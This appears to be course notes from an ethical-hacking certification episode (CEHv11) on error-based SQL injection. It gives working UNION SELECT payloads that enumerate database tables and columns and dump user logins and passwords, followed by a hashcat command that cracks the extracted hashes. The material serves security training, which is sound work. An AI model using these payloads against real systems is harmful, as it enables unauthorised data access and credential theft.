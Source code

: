    Filename: eccouncil-ceh31250-v11-15-2-1-error-based-sqli-attacks.md
    Show Name: CEHv11 (312-50)
    Topic Name: Web Application Hacking: SQL Injection
    Episode Name: Error-based SQLi Attacks ================================================================================

Error-based SQLi Attacks
Objectives:

    Explain and demonstrate how to use Error-based SQLi to access sensitive information

    What do we mean by 'error' based?
        Make web app print SQL error to screen
            Confirms the SQL injection

    How do we do this?
        Testing for injection
            The single-quote (') is your friend
                Double-quotes can work as well

    Now that we have a possible injection point, where do we go next?
        ORDER BY
            Sorts results in set by ascending or descending order
                Or in this case by column number
            iron' order by 1 --
                Increase the number by 1 until you receive an error
                    Now you know how many columns

    Now that we have the columns identified, what do we do next?
        UNION SELECT
            iron' union select 1,2,3,4,5,6,7 --
                You can now see where usable areas are
                    They will be selected for output fields
                        iron' union select 1,user(),3,4,@@version,6,7 --

    So, we're now interacting with the SQL database and it just dumps info to the web page! If we have this kind of control, where do we go from here?
        TABLE enum
            ...1,table_name,3,4,5,6,7 FROM information_schema.tables --
        COLUMN enum
            ...1,column_name,3,4,5,6,7 FROM information_schema.columns WHERE table_name='users' --
        Read COLUMN info
            ...1,login,3,4,password,6,7 FROM users --
                Save creds to file
                Check hash type with hash-identifier and crack with hashcat
                    hashcat -m 100 -a 0 nixPass.txt /usr/share/wordlists/rockou.txt --force

